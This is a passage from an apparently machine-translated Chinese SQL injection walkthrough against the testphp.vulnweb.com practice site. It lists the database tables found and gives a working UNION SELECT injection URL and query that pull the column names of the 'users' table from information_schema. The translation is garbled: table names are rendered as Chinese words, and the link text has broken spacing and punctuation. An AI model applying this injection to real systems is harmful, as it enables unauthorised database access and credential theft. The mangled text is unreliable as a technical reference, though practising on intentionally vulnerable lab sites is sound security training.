 **我们得到了一个桌子列表:**

*   **艺术家**
*   **手推车**
*   **卡特格**
*   **作为特色的**
*   **留言板**
*   **图片**
*   **制品**
*   **用户**

# **4.发现表中的列名**

**发现表格的列`users`**

**[http://testphp.vulnweb.com/listproducts.php?cat = 1% 20 union % 20 select % 20 all % 201，column_name，3，4，5，6，7，8，9，10，11% 20 from % 20 information _ schema . columns 其中 table_name='users'](http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%20all%201,column_name,3,4,5,6,7,8,9,10,11%20from%20information_schema.columns where table_name='users')**

**相应的 SQL 查询:**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name = 'users'
```

